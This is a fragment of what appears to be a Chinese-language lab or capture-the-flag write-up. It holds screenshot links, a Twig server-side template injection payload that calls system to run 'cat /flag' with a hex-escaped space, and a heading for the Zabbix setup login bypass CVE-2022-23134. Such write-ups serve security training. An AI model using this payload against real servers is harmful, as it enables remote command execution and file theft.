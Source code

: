 ![image-20230712111557338](%E9%9D%B6%E5%9C%BA.assets/image-20230712111557338.png)

```
{{['cat\x20/flag']|filter('system')}}
```

![image-20230712111619238](%E9%9D%B6%E5%9C%BA.assets/image-20230712111619238.png)



## CVE-2022-23134 Zabbix setup 访问控制登录绕过
